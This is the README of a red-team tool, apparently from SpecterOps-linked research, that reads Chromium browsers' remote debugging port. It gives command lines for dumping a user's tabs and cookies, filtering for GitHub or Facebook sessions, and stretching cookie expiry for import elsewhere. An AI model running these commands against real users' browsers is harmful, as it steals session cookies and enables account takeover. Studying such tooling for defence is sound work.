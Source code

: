 # WhiteChocolateMacademiaNut

![WhiteChocolateMacademiaNut](./example.png)

## Description
Interacts with [Chromium-based browsers' debug port](https://blog.chromium.org/2011/05/remote-debugging-with-chrome-developer.html) to view open tabs, installed extensions, and cookies. Tested against Google Chrome and Microsoft Edge.

## Blogpost
- https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e

## Usage
- Dump the user's open tabs and installed extensions
    - ```./WhiteChocolateMacademiaNut -p 4200 -d pages```
- Dump the user's cookies in human-readable format
    - ```./WhiteChocolateMacademiaNut --port 1337 --dump cookies --format human```
- Dump the user's cookies in raw JSON as returned by Chromium
    - ```./WhiteChocolateMacademiaNut --port 1234 --dump cookies --format raw```
- Dump the user's cookies in JSON with the name, value, domain, path, and modified expirationDate attribute to 10 years in the future (compatible with [Cookiebro extension](https://nodetics.com/cookiebro/))
    - ```./WhiteChocolateMacademiaNut -p 666 -d cookies -f modified```
- Dump the user's cookies in JSON if the cookie name or domain field contains `github` and modifies the expirationDate attribute
    - ```./WhiteChocolateMacademiaNut -p 4321 -d cookies -f modified -g github```
- Dump the user's cookies in human-readable format if the page title or url contains `facebook`
    -  ```./WhiteChocolateMacademiaNut --port 31415 --dump pages --grep facebook```

Load and clear functions are intended to be used locally. Do not clear target's cookies. In order for this to work, you will need to start the Chromium-based browser with the debug port open. 

- Load the user's cookies locally from a file
    - ```./WhiteChocolateMacademiaNut --port 9222 --load cookies.json```
- Clear all cookies
    - ```./WhiteChocolateMacademiaNut --port 9222 --clear```


## References
- https://mango.pdf.zone/stealing-chrome-cookies-without-a-password
- https://github.com/defaultnamehere/cookie_crimes
